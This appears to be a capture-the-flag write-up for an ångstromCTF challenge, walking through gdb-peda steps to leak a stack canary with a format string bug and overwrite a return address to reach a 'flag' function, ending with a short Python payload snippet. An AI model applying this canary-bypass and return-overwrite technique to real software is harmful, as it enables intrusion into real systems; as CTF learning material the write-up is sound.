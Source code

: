 # Easy Canary Buffer Overflow 
_Just some tips to remeber how to resolve easy buffer overflows with canary. This challenge is from the ångstromCTF_

## Steps 📝
**1.  Check the typical "win" or "flag" function on the binary with gdb (it's recommended to have [PEDA](https://github.com/longld/peda) installed to see registers and the program instructions in a prettier way).**

To open the binary with gdb:
```
gdb binary
```
To see the differents functions on the binary: 
```
gdb-peda$ info functions
```
![Functions Addresses](images/functions.png)


**2. Get "flag" function memory address**: 
```
gdb-peda$ info functions flag 
```

![Function Address](images/function_address.png)


**3. Finding the canary to prepare the payload**:

First we should puts a breakpoint on the "vulnerable" method (for example gets or fgets)

```
gdb-peda$ disas main
```
![Gets address](images/gets_address.png)

```
gdb-peda$ b *0x000000000040093b ("gets" memory address)
```

Run the binary with gdb until reaching the breakpoint

```
gdb-peda$ run
```
Execute the next instruction of the program (it will call the "gets" where we have put the breakpoint and ask for an input, in this case we are going to write some 'A'):
```
gdb-peda$ ni
AAAAAAAAAAAAA
```
Then we have to look at the rsp register to see where our input has been stored ('A' in ASCII is 41): 
```
gdb-peda$ x/20gx $rsp
```
![RSP values](images/rsp_values.png)

If we look closer we can see the value "0x6f54534ae2410d00", this "strange" value which is different from the others on the stack is the canary (8 bytes, the length of the word, that changes in every program execution), so we have to do the buffer overflow writing the exact same value on this position. 

As the canary changes in each execution we have to print it with a format string vulnerability in order to add it to the payload (in the "canary" binary we can make a format string vulnerability in the line "printf(strcat(name, "!\n"));"). To print it we should use some %p to see in which position the canary is printed, in this case is the position 17 (it is recommended to see some format strings [videos](https://www.youtube.com/watch?v=0WvrSfcdq1I)):

![RSP values](images/format_string.png)

Now, we have the canary value which will be added to our payload. The next step is to overwrite the return address of the function in order to redirect the program to the "flag" function and get our flag. 


**4. Getting the return address of the function**

To get the return address of the function we have to put a breakpoint on the "ret" instruction:
```
gdb-peda$ breakpoint *0x400956
```
When the execution reachs the breakpoint we have to see the first position of the stack where is the returning address of the program is: 
```
gdb-peda$ x/gx $rsp
```
![RSP values](images/return_address.png)

Finally to exploit the second "gets" with the bufferoverflow we check how many bytes we have to write until the canary and then until the return address where we will put the flag return address obtained on the first step of this guide:

![RSP values](images/to_overwrite.png)

So the payload will be: 56 chars until reach the canary, the canary obtained, 8 chars more and the flag function address (If you got a segfault in the `movaps XMMWORD PTR [rsp+0x40],xmm0` instruction you have to align the stack jumping to other ret instruction and then set the target address as you can see in the solution.py script)

```
payload = 'A'*56
payload += p64(int(canary, 16))
payload += 'A'*8
payload += p64(MAIN_RET)
payload += p64(FLAG_ADDRESS)
```


